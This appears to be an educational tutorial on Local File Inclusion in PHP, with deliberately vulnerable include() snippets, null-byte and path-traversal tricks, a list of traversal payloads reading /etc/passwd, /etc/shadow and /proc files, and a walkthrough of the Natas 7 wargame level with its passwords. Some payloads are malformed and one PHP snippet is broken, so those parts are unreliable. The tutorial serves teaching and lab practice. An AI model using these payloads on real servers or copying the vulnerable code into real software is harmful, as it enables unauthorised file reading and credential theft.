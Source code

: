 # Local File Inclusion

 > Local File Inclusion (also known as LFI) allows an attacker to include files in server side through web browser.File inclusions are part of every advanced server side scripting language on the web.LFI is commonly found to affect web applications that rely on a scripting run time.This occurs mainly due to a bad input validation mechanism, wherein the user’s input is passed to the file include commands without proper validation. 

### Local file inclusion in PHP:

Consider an example as follows where we can apply this attack.
http://victim_site/abc.php?file=userinput.txt
The value of “file” parameter is taken into the following PHP code, and the file is included:
```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```
An attacker may give malicious input for the "file" parameter which may give unauthorized files in that directory, he can also change the directories by using characters like "../".He can access the user credentials by giving input as "../../../../etc/passwd".In some cases where the file extension is added by default, we can avoid it by adding null byte terminator " %00".Any character after this special character will be ignored.

Suppose that the input given is taken by the following code and the default extension being set is “.php”.
```php
<?php
“include/”.include($_GET[‘testfile’].”.php”);
?>
```

by giving file=../../../../etc/passwd%00 we can access the file by passing the ".php" extension.

An attacker can also download files by changing the file names. For example
<br>URL : example/?download=broucher.pdf
</br>The attacker may change the broucher.pdf to any other file such as passwords.txt,users.txt etc,

## Impact
A successful LFI may result in compromise of the system ,data leakage etc.The attacker can read,write,download files and can also run arbitary codes with privileges of web server

## Explore it yourself
Make a php file with the code given above and explore different possibilities of the vulnerability.
### Somepayloads :
- ../../../../etc/passwd/etc/issue
- ../../../../etc/passwd
- ../../../../etc/passwd/etc/shadow
- ../../../../etc/passwd/etc/group
- ../../../../etc/passwd/etc/hosts
- ../../../../etc/passwd/etc/motd
- ../../../../etc/passwd/etc/mysql/my.cnf
- ../../../../proc/self/environ
- ../../../../proc/version
- ../../../../proc/cmdline
- ../../../../proc/sched_debug
- ../../../../proc/mounts
- ../../../../proc/net/arp
- ../../../../proc/net/route
- ../../../../proc/net/tcp
- ../../../../proc/net/udp

# Let's try a challenge  
 NATAS 7 :
  - USERNAME : natas7
  - PASSWORD : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
  ![natas7](natas7.1.png)

The site is very simple only with two buttons, but once when you click on Home or About the URL changes as follows :

  ![natas7](natas7.2.png)</br>
  ![natas7](natas7.3.png)
 
 It looks like the PHP file is including the file given as page, when we check the source code we get the hint as  
 hint: password for webuser natas8 is in /etc/natas_webpass/</br></br>
  ![natas7](natas7.4.png)
  
  So, let's try to include that file in the URL 
 URL : index.php?page=/etc/natas_webpass/natas8
On including this file we get the password for the next level on the screen </br></br>
password : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</br></br>
![natas7](natas7.5.png)
</br></br>
This is a basic example of Local file inclusion vulnerability.


